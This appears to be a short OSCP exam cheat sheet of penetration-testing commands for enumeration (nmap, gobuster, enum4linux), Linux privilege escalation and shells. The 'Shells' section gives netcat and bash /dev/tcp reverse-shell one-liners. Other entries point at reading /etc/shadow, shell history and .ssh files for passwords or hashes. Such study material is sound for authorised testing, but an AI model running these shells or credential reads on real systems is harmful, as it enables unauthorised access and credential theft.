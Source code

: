 # OSCP

## Enumeration Tools

- Nmap
  ``` 
  nmap -sC -sV <ip>
  ```
- Gobster
  ``` 
  gobuster dir -t 50 -x php,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <ip>
  ```
- enum4linux 
  ```
  enum4linux -a <ip>
  ```

## Shells

- Ways to get shell
  ```
  nc <ip>:<port> -e /bin/bash
  bash -i &>/dev/tcp/<ip>/<port> <&1
  ```
- Catch Shell
  ```
  nc -lvnp <port>
  ```

## Privilege Esclation

- Service Exploit
  ```
  service --status-all
  ```
- File permissions
  ```
  /etc/passwd
  /etc/shadow
  /etc/crontab
  /etc/cron.d/*
  ```
- Sudo 
  ```
  sudo -l 
  > then use https://gtfobins.github.io
  ```
- Cron
  ```
  cat /etc/crontab
  > Look for jobs and files that are being ran
  > Also look for the PATH variable to see if there is any realtive directory files and a path directory you can write to
  ```
- SUID 
  ```
  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
  > Look for know exploits, Shared Object Injection, and /usr/bin/systemctl
  ```
- Command History 
  ```
  cat ~/.*history | less
  ```
- Config files
  ```
  ls -la /home/<user>/
  > Look for .ssh and other config-type filese that could contain password or hashes
  ```
- Kernel Exploits
  ```
  uname -a
  ```

## Other

- Other People Lists
  ```
  https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
  ```
